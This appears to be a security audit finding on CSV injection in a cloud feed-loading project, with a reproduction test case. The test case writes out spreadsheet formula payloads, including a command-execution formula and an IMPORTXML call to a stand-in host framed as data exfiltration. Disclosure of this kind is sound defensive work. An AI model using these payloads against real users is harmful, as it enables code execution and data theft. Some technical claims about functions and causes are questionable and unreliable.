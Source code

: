- Vulnerability Name: CSV Injection
- Description:
  1. An attacker crafts a malicious CSV file containing CSV injection payloads within item fields.
  2. The attacker uploads this malicious CSV file to the `FEED_BUCKET` in Google Cloud Storage.
  3. The `import_storage_file_into_big_query` Cloud Function is triggered by the file upload event.
  4. The Cloud Function uses the BigQuery Load API to import the CSV data into a BigQuery table (`feed_data.items`). The Load API configuration does not include any CSV sanitization or escaping mechanisms, and importantly, `quote_character` is set to empty string, effectively disabling quote handling.
  5. A user, such as a data analyst or GMC administrator, queries or downloads the processed data from the `feed_data.items` BigQuery table and exports it as a CSV or TSV file.
  6. The user opens the exported CSV/TSV file using spreadsheet software (e.g., Microsoft Excel, Google Sheets, LibreOffice Calc).
  7. The spreadsheet software detects and interprets the injected formulas (e.g., starting with '=', '@', '+', '-') within the CSV data.
  8. Depending on the malicious payload and the spreadsheet software's security settings, this can lead to:
    - Arbitrary command execution on the user's machine. For example, using `=SYSTEM()` or similar functions.
    - Injection of malicious content or links within the spreadsheet, potentially leading to phishing or further attacks.
- Impact:
  - **High:** If successfully exploited, this vulnerability can lead to arbitrary command execution on the machine of a user who opens the malicious CSV file with vulnerable spreadsheet software. This can allow an attacker to gain control over the user's system, steal sensitive information, or perform other malicious actions. Even without command execution, malicious content injection can be used for phishing or social engineering attacks.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
  - None. The project does not implement any CSV sanitization or output escaping to prevent CSV injection. The README.md provides instructions on feed schema configuration and header matching, but does not mention or mitigate CSV injection risks.
- Missing Mitigations:
  - **Input Sanitization:** Implement robust CSV sanitization within the `_perform_bigquery_load` function in `/code/cloud_functions/gcs-bq-feed-load/main.py` before loading CSV data into BigQuery. This should include escaping or removing characters that spreadsheet software interprets as formula indicators (e.g., '=', '@', '+', '-'). Consider using a library specifically designed for secure CSV handling.
  - **Documentation and User Warnings:** Add a prominent security warning in the README.md and Dev Ops guide (`/code/documentation/maintenance-guide.md`) about the risks of CSV injection. Advise users to exercise extreme caution when opening CSV/TSV files downloaded from the FeedLoader system and to avoid opening files from untrusted sources. Recommend opening CSV files in plain text editors for inspection before using spreadsheet software.
- Preconditions:
  - An attacker must be able to upload a malicious CSV/TSV file to the `FEED_BUCKET`. This could be achieved through:
    - Compromising a user account with write access to the `FEED_BUCKET`.
    - Exploiting a misconfiguration that allows public uploads to the `FEED_BUCKET`.
    - Socially engineering a user with upload access to upload a malicious file provided by the attacker.
  - A user with access to the BigQuery `feed_data.items` table or the `FEED_BUCKET` must download the processed feed data and open it with spreadsheet software susceptible to CSV injection.
- Source Code Analysis:
  - File: `/code/cloud_functions/gcs-bq-feed-load/main.py`
  - Function: `_perform_bigquery_load`
  - Step-by-step analysis:
    1. The `_perform_bigquery_load` function is responsible for loading CSV/TSV feed files from Google Cloud Storage into BigQuery.
    2. It initializes a `bigquery.LoadJobConfig` object to configure the data loading process.
    3. **Vulnerability Point:** The `bigquery.LoadJobConfig` is configured with `source_format=bigquery.SourceFormat.CSV` and `quote_character=''`. Setting `quote_character` to an empty string disables the use of quote characters for escaping special characters in CSV fields. This means that if a CSV field contains characters like '=', '@', '+', or '-', and they are intended to be treated as literal characters, spreadsheet software will interpret them as formula indicators if the data is later opened in such software.
    4. The `bigquery_client.load_table_from_uri` function is then called to load data from the GCS URI into the BigQuery `items` table using the vulnerable configuration.
  - Visualization:
    ```
    [Malicious CSV File] --> Upload to FEED_BUCKET --> [Cloud Function: import_storage_file_into_big_query] --> [BigQuery Load API (Vulnerable Config)] --> [BigQuery: feed_data.items] --> [User Download CSV/TSV] --> [Spreadsheet Software (Vulnerable)] --> [Command Execution/Malicious Content Injection]
    ```
- Security Test Case:
  1. **Setup:** Ensure you have a running FeedLoader instance deployed to GCP and have the necessary permissions to interact with Google Cloud Storage and BigQuery.
  2. **Create Malicious CSV File:** Create a file named `malicious_feed.csv` with the following content. This CSV contains a formula in the `description` field designed to trigger command execution in spreadsheet software:
     ```csv
     item_id,title,description
     testitem1,Test Product 1,"=SYSTEM(\"calc.exe\")"
     testitem2,Test Product 2,"Normal description"
     ```
     **Note:** `=SYSTEM("calc.exe")` is a Windows-specific example that attempts to open Calculator. For cross-platform testing, you can use other spreadsheet formulas or payloads. For example, `=cmd|'/C notepad'!'A1'` for LibreOffice or `=IMPORTXML("http://example.com","//body")` for Google Sheets to demonstrate data exfiltration.
  3. **Upload Malicious CSV:** Upload `malicious_feed.csv` to your configured `FEED_BUCKET` using `gsutil cp`.
     ```bash
     gsutil cp malicious_feed.csv gs://<YOUR_FEED_BUCKET>/
     ```
  4. **Trigger Feed Processing:** Create an empty EOF file and upload it to the `UPDATE_BUCKET` to initiate FeedLoader processing.
     ```bash
     touch EOF
     gsutil cp EOF gs://<YOUR_UPDATE_BUCKET>/
     ```
  5. **Wait for Processing:** Monitor the Cloud Function logs in the GCP console for `import_storage_file_into_big_query` and `calculate_product_changes` to ensure the feed processing completes successfully without errors.
  6. **Query BigQuery:** Once processing is complete, use the BigQuery console to query the `feed_data.items` table:
     ```sql
     SELECT * FROM `<YOUR_GCP_PROJECT_ID>.feed_data.items`
     ```
  7. **Download CSV from BigQuery:** Download the query results as a CSV file to your local machine.
  8. **Open CSV in Spreadsheet Software:** Open the downloaded CSV file using spreadsheet software like Microsoft Excel or Google Sheets.
  9. **Verify Vulnerability:** Observe if the spreadsheet software:
     - Executes the injected formula (e.g., Calculator application opens on Windows if using `=SYSTEM("calc.exe")`).
     - Displays a security warning indicating potential risks associated with the CSV file content (this behavior depends on the spreadsheet software and its security settings).

This security test case will confirm the CSV injection vulnerability exists in the FeedLoader project.